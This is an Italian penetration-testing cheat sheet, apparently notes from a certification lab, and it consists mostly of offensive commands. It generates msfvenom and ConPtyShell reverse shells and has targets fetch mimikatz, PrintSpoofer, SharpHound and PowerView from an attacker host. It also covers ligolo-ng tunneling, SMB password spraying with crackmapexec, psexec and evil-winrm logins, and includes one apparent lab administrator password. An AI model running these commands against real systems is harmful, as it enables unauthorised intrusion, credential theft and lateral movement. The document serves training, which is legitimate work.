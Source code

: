 # Reverse Shell

Link Utili:
- https://www.revshells.com/
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
## Windows

**msfvenom**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI_IP LPORT=6666 -f exe -o revshell.exe 
```

 **ConPtyShell** (Fully Interactive Reverse Shell) 

Su kali:

```bash
git clone https://github.com/antonioCoco/ConPtyShell.git

python -m http.server 9999

stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Su windows:

```bash
powershell iwr -uri http://$KALI_IP:9999/windows/ConPtyShell.exe

powershell C:\windows\temp\ConPtyShell.exe $KALI_IP 3001

powershell ConPtyShell.exe $KALI_IP 3001
```

# Linux Toolkit

Su kali:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240519-fab0d0d5/linpeas.sh

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

Su linux:

```bash
wget http://$KALI_IP:9999/linux/linpeas.sh

wget http://$KALI_IP:9999/linux/pspy64
./pspy64 -pf -i 1000
```
# Windows Toolkit

Su kali:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240519-fab0d0d5/winPEASx64.exe

wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe

wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.ps1

wget https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView.ps1

wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```

Su windows:

```bash
iwr -uri http://$KALI_IP:9999/windows/winPEASx64.exe -Outfile winPEAS.exe

iwr -uri http://$KALI_IP:9999/windows/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

iwr -uri http://$KALI_IP:9999/windows/SharpHound.ps1 -Outfile SharpHound.ps1

iwr -uri http://$KALI_IP:9999/windows/PowerView.ps1 -Outfile PowerView.ps1 

iwr -uri http://$KALI_IP:9999/windows/mimikatz.exe -Outfile mimikatz.exe
```

# Mimikatz

- https://book.hacktricks.xyz/v/it/windows-hardening/stealing-credentials/credentials-mimikatz

# Tunneling

**Ligolo-ng

Guida:
- https://kentosec.com/2022/01/13/pivoting-through-internal-networks-with-sshuttle-and-ligolo-ng/

Su kali

```bash
git clone https://github.com/nicocha30/ligolo-ng.git

cd /tmp/ligon-ng

sudo go build -o agent cmd/agent/main.go
sudo go build -o proxy cmd/proxy/main.go

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip

sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $SUBNET_TARGET/24 dev ligolo

sudo ./proxy -selfcert
```

Su linux:


Su windows:

```bash
iwr -uri http://$KALI_IP:9999/windows/ligolo-ng/agent.exe -Outfile agent.exe

./agent.exe -connect 192.168.45.195:11601 -ignore-cert
```

# File transfer

**scp**

Su kali:

```bash
sudo systemctl ssh start
```

Su windows:

```bash
scp path/to/file kali@$KALI_IP:path/to/file
```

# Find flags

```bash
Get-ChildItem -Path C:\users -Include proof.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\users -Include local.txt -File -Recurse -ErrorAction SilentlyContinue
```

# Windows Connection

**SMB**

```bash
smbclient -N -L //IP_TARGET/ -U domain.com/user%password
```

**SMB Password Spraying**

```bash
sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success

sudo crackmapexec smb $SUBNET_TARGET/24  -u users.txt -p passwords.txt -d medtech.com --continue-on-success | grep "[+]"
```

**RDP**

```bash
xfreerdp /cert-ignore /u:user /d:domain.com /p:"Password" /v:$IP_TARGET
```


**WinRM**

```basH
evil-winrm -i $IP_TARGET -u 'user' -p 'Password'
```

**impacket-psexec**

```basH
impacket-psexec domain.com/user:"password"@$IP

impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.21
```

## Directory Fuzzing

**ffuf**

```basH
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://$TARGET_IP/FUZZ

ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ  -u http://$TARGET_IP/FUZZ

ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://$TARGET_IP/FUZZ
```

**gobuster**

```basH
gobuster dir -x .pdf -w /usr/share/wordlists/dirb/common.txt -u http://$TARGET_IP
```


`